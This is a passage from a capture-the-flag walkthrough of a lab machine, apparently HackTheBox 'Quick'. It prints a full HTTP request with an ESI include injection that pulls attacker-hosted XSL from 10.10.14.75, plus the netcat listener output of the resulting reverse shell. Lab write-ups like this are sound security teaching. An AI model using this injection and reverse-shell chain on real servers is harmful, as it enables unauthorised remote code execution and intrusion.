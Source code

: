 The machine downloaded the `files` again from my machine.


```
10.10.10.186 - - [15/Jul/2020 13:15:02] "GET /rhovelionz2.xsl HTTP/1.1" 200 -
10.10.10.186 - - [15/Jul/2020 13:15:02] "GET /rhovelionz2.xml HTTP/1.1" 200 -
```

> **Execute third request**

Before executing the `third` request, we need to start our **listener** as `netcat` in order to get reverse shell.

```
POST /ticket.php HTTP/1.1
Host: quick.htb:9001
Content-Length: 120
Cache-Control: max-age=0
Origin: http://quick.htb:9001
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/X.png,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://quick.htb:9001/ticket.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,hi;q=0.8
Cookie: PHPSESSID=park1igb2tlpu91ane3rlglnj0
Connection: close

title=a&msg=<esi:include+src="http://10.10.14.75/rhovelionz3.xml"+stylesheet="http://10.10.14.75/rhovelionz3.xsl"></esi:include>&id=TKT-1339
```

## **<span style='color:#ff5555'>Capture the user.txt</span>**
***

```
➜  Quick nc -nlvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.186.
Ncat: Connection from 10.10.10.186:36834.
```

```
sam@quick:~$ wc -c user.txt
33 user.txt
sam@quick:~$ 
```

## **<span style='color:#ff5555'>Escalating to the next user</span>**
***
